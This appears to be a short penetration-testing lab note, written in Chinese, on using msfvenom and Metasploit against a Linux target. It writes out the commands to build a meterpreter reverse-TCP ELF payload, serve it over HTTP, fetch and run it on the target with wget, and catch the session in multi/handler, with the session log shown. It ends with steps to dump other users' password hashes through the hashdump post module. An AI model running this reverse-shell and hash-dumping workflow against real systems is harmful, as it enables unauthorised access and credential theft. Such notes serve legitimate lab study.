 ### msfvenom
`msfvenom -l payload`
Framework Payloads (592 total) [--payload <value>]

### 輸出格式
`msfvenom --list formats`命令可用於列出支持的輸出格式

```
1. msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

2. python3 http.server

3.傳輸到目標機器 use wget

4. chmod +x and run the elf

5.
msf6 exploit(multi/handler) > set lport 9999
lport => 9999

msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.1.50:9999 
[*] Sending stage (984904 bytes) to 10.10.209.159
[*] Meterpreter session 5 opened (10.9.1.50:9999 -> 10.10.209.159:47226 ) at 2022-01-20 10:09:07 -0500

* 使用後期利用模塊轉儲系統上其他用戶的哈希值

可以用 background 把當前session丟到背景

這時候用sessios 指令能看見他

接著use post/linux/gather/hashdump

然後show options 

set session id

run


```

